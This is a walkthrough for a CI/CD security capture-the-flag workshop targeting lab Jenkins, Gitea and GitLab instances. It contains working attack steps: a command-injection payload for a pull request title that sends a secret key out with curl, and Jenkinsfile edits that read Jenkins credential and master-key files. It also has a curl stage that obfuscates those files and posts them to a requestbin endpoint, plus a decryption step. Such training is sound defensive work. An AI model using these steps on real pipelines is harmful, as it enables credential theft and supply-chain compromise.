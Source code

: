 This Walk Thru contains commands and snippets that will be used in the workshop, and should help save time from manually typing complex commands or copying and pasting from slides which may mangle text.

### URL List

CTFd
- http://`[randomhash]`.mylabserver.com:8000
  - alice/alice

Gitea
- http://`[randomhash]`.mylabserver.com:3000
  - thealice/thealice

GitLab
- http://`[randomhash]`.mylabserver.com:4000
  - alice/alice1234

Jenkins
- http://`[randomhash]`.mylabserver.com:8080
  - alice/alice



### Slide 23
```
withCredentials([string(credentialsId: 'flag1', variable: 'flag1')])
    sh '''
        echo $flag1 |base64
    '''
}
```

### Slide 24

Decode the flag 

> Replace {base64} with the base64 in the console output
```
echo "{base64}" | base64 -d
```

### Slide 27

```
docker pull ghcr.io/gitleaks/gitleaks:latest
```

```
git clone http://localhost:3000/Wonderland/duchess.git
```

```
docker run -v ./duchess/:/path ghcr.io/gitleaks/gitleaks:latest detect --source="/path" -v
```

```
cd duchess
```

```
ls -al
```

```
git log -L 8,8:.pypirc 43f216c
```

### Slide 31

Return to home from less exercise
```
cd ~
```

Get IP address of host network interface
```
ip addr show dev ens5
```

```
sudo netcat -nvlp 80
```

Go to Gitea instance

http://<server>:3000/

thealice/thealice

http://<server>:3000/Cov/reportcov

Paste this into pull request title, replace `<YOUR SERVER IP>` with the one you got from the `ip addr` command above.
```
`echo ${KEY} > key && curl -v -F file=@key <YOUR SERVER IP>`
```

### Slide 35

```
git clone http://localhost:3000/Wonderland/mock-turtle.git
```

Use the same creds for gitea: thealice/thealice

```
cd mock-turtle
```

```
git checkout -b branch1
```

```
nano version
```

Update the version number 

Save the file `Ctrl-O`

Exit nano `Ctrl-X`

### Slide 36

```
nano Jenkinsfile
```

Paste this into the file at the line just below `steps {`:
```
withCredentials([usernamePassword(credentialsId: 'flag10', usernameVariable: 'USERNAME', passwordVariable: 'TOKEN')]) {
    sh 'echo $TOKEN | base64'
}
```

Save the file `Ctrl-O`

Exit nano `Ctrl-X`

Next commit the file change

```
git add version Jenkinsfile
```

```
git commit -m "New version"
```

Push the changes up to the repository
```
git push --set-upstream origin branch1
```

In Gitea navigate to the mock-turtle repo, and switch to the new branch `branch1`

Create a pull request and submit it.

The pull request should get autoapproved.

Go to Jenkins and you should see an automated build kicked off for the new "version".

Look at the console output of the new build.

### Slide 41

Replace `any` with the below
```
built-in
```
>e.g. `agent {node 'built-in'}`

Add the following to the `sh """` block
```
echo $JENKINS_HOME
cat $JENKINS_HOME/credentials.xml | base64
cat $JENKINS_HOME/secrets/master.key | base64
cat $JENKINS_HOME/secrets/hudson.util.Secret | base64
ls $JENKINS_HOME
cat $JENKINS_HOME/flag5.txt
```
>Your code should look like the below:
>```
>sh """
>    virtualenv venv
>    pip install -r requirements.txt | true
>    echo $JENKINS_HOME
>    cat $JENKINS_HOME/credentials.xml | base64
>    cat $JENKINS_HOME/secrets/master.key | base64
>    cat $JENKINS_HOME/secrets/hudson.util.Secret | base64
>    ls $JENKINS_HOME
>    cat $JENKINS_HOME/flag5.txt
>"""
>```

>**Note**: Jenkins is a fork of Hudson https://en.wikipedia.org/wiki/Hudson_(software) which was originally made by Sun Microsystems as an Open Source Project, then forked when Oracle bought it and wanted to trademark/monitize Hudson. So you'll sometimes see references to it such as in one of the files above.

### Slide 42


Go to requestbin.com and create a public bin

```
stage('Install Requirements') {
  steps {
    sh """
      curl -X POST \
      -F "file1=\$(cat $JENKINS_HOME/credentials.xml | base64 -w 0 | rev)" \
      -F "file2=\$(cat $JENKINS_HOME/secrets/master.key | base64 -w 0 | rev)" \
      -F "file3=\$(cat $JENKINS_HOME/secrets/hudson.util.Secret |base64 -w 0 | rev)" \
      -F "file4=\$(cat $JENKINS_HOME/flag5.txt | base64 | rev)" \
      ENDPOINT_URL
    """
  }


}
```

### Extract the creds

For each of the files you need to decode them and write them to the a file.

```
echo "{base64}" | rev | base64 -d > credentials.xml
```

```
echo "{base64}" |rev |base64 -d > master.key
```

```
echo "{base64}" |rev base64 -d > hudson.util.Secret
```

We can use a docker image with a Jenkins credential storage decrypter from here.

```
docker run \
  --rm \
  --network none \
  --workdir / \
  --mount "type=bind,src=$PWD/master.key,dst=/master.key" \
  --mount "type=bind,src=$PWD/hudson.util.Secret,dst=/hudson.util.Secret" \
  --mount "type=bind,src=$PWD/credentials.xml,dst=/credentials.xml" \
  docker.io/hoto/jenkins-credentials-decryptor:latest \
  /jenkins-credentials-decryptor \
    -m master.key \
    -s hudson.util.Secret \
    -c credentials.xml \
    -o json
```

### Resources

[NSA/CISA Defending Continuous Integration/Continuous Delivery (CI/CD) Environments](https://media.defense.gov/2023/Jun/28/2003249466/-1/-1/0/CSI_DEFENDING_CI_ENVIRONMENTS.PDF)

[NIST Strategies for the Integration of Software Supply Chain Security in DevSecOps CI/CD pipelines](https://csrc.nist.gov/pubs/sp/800/204/d/ipd)

[OWASP Top 10 CICD Risks](https://owasp.org/www-project-top-10-ci-cd-security-risks/)

[CI/CD GOAT](https://github.com/cider-security-research/cicd-goat/#readme)


